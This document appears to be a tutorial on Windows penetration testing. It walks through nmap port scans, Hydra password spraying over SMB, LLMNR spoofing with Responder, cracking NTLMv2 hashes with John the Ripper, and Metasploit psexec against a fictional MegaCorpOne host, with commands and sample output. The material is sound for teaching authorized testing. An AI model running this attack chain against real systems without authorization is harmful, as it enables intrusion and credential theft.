 ```markdown
# Introduction to Windows Penetration Testing

This document provides an overview of Windows penetration testing, including key differences from Linux penetration testing, common open ports, Windows authentication mechanisms, and examples of poisoning or spoofing attacks on a Windows network. Additional examples for port scanning, password spraying, LLMNR spoofing, and Windows exploitation are also included.

---

## Differences Between Windows and Linux Penetration Testing

While penetration testing principles remain the same, the tools and techniques differ between Windows and Linux environments due to their architecture, protocols, and security mechanisms.

### Key Differences

| Aspect                | Windows                                | Linux                                  |
|-----------------------|----------------------------------------|----------------------------------------|
| **File System**       | NTFS, uses drive letters (e.g., `C:\`) | Ext4, hierarchical directory structure |
| **Authentication**    | Active Directory (Kerberos, NTLM)     | PAM, SSH                               |
| **Common Tools**      | PowerShell, Metasploit, Mimikatz       | Bash, Metasploit, Hydra                |
| **Open Ports**        | SMB (445), RDP (3389), WMI            | SSH (22), HTTP (80/443)                |
| **Exploitation**      | Focus on Active Directory and SMB      | Focus on SSH and web services          |

### Example
- **Windows**: Exploiting SMB vulnerabilities (e.g., EternalBlue).
- **Linux**: Exploiting weak SSH credentials or misconfigured web servers.

---

## Common Open Ports on a Windows Machine

Windows machines often have specific ports open for various services. These ports can be targeted during penetration testing.

### Common Ports and Their Services

| Port  | Service                     | Description                                      |
|-------|-----------------------------|--------------------------------------------------|
| 135   | RPC (Remote Procedure Call) | Used for inter-process communication.           |
| 139   | NetBIOS                     | Provides file and printer sharing services.     |
| 445   | SMB (Server Message Block)  | Used for file sharing and network communication.|
| 3389  | RDP (Remote Desktop Protocol)| Allows remote desktop connections.              |
| 5985  | WinRM (Windows Remote Management) | Used for remote management via PowerShell. |

### Example: Scanning for Open Ports
- **Command**:
  ```bash
  nmap -p 135,139,445,3389 <target-ip>
  ```
- **Output**:
  ```plaintext
  PORT     STATE SERVICE
  135/tcp  open  msrpc
  139/tcp  open  netbios-ssn
  445/tcp  open  microsoft-ds
  3389/tcp open  ms-wbt-server
  ```

---

## Port Scanning: Updated Example

### Scenario
You are conducting a follow-up scan on MegaCorpOne's network to identify any new Windows machines or services.

### Example: Comprehensive Port Scan
1. **Command**:
   ```bash
   nmap -sS -p- <target-ip>
   ```
2. **Explanation**:
   - `-sS`: Performs a stealth SYN scan.
   - `-p-`: Scans all 65,535 ports.
3. **Output**:
   ```plaintext
   PORT     STATE SERVICE
   135/tcp  open  msrpc
   139/tcp  open  netbios-ssn
   445/tcp  open  microsoft-ds
   3389/tcp open  ms-wbt-server
   5985/tcp open  wsman
   ```
4. **Use Case**:
   - Identify new services or machines added to the network since the last scan.

---

## Password Spraying: Updated Example

### Scenario
You previously cracked several passwords from a Linux machine. Now, you will attempt to use those credentials to log in to a Windows machine.

### Example: Password Spraying
1. **Tool**: Hydra
2. **Command**:
   ```bash
   hydra -L usernames.txt -P cracked_passwords.txt <target-ip> smb
   ```
3. **Explanation**:
   - `-L usernames.txt`: Specifies a file containing usernames.
   - `-P cracked_passwords.txt`: Specifies a file containing cracked passwords.
   - `smb`: Specifies the SMB protocol.
4. **Output**:
   ```plaintext
   [445][smb] host: 192.168.1.10   login: jdoe   password: Password123
   ```
5. **Use Case**:
   - Identify valid credentials for accessing the Windows machine.

---

## LLMNR Spoofing: Updated Example

### Scenario
You will perform LLMNR spoofing to capture credentials for another domain user and crack them offline.

### Example: LLMNR Spoofing
1. **Tool**: Responder
2. **Steps**:
   - Start Responder:
     ```bash
     responder -I eth0
     ```
   - Wait for a victim to send an LLMNR request.
   - Capture the NTLMv2 hash.

3. **Crack the Hash**:
   - Use John the Ripper to crack the captured hash:
     ```bash
     john --format=ntlmv2 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
     ```
4. **Output**:
   ```plaintext
   jdoe:Password123
   ```
5. **Use Case**:
   - Obtain valid credentials for further exploitation.

---

## Windows Exploitation: Updated Example

### Scenario
You will use the credentials obtained from LLMNR spoofing to exploit a Windows machine and execute commands remotely.

### Example: Exploiting a Windows Machine
1. **Tool**: Metasploit
2. **Steps**:
   - Start Metasploit:
     ```bash
     msfconsole
     ```
   - Use the psexec module:
     ```plaintext
     use exploit/windows/smb/psexec
     ```
   - Set the target and credentials:
     ```plaintext
     set RHOSTS <target-ip>
     set SMBUser jdoe
     set SMBPass Password123
     ```
   - Launch the exploit:
     ```plaintext
     exploit
     ```
3. **Outcome**:
   - Gain a Meterpreter session on the target machine.
   - Example command:
     ```plaintext
     meterpreter > sysinfo
     ```
   - Output:
     ```plaintext
     Computer        : WIN-MEGA01
     OS              : Windows 10 (Build 19041).
     ```

---

## Security Considerations

- **Port Scanning**: Use stealth techniques to avoid detection by intrusion detection systems (IDS).
- **Password Spraying**: Limit attempts to avoid account lockouts.
- **LLMNR Spoofing**: Ensure ethical use and avoid disrupting legitimate network traffic.
- **Exploitation**: Always obtain written permission before exploiting vulnerabilities.



https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/07-working-with-wmi?view=powershell-7.5&viewFallbackFrom=powershell-7.1 
---

By understanding these concepts and practicing the examples, you can effectively perform penetration testing on Windows environments while adhering to ethical guidelines.
```

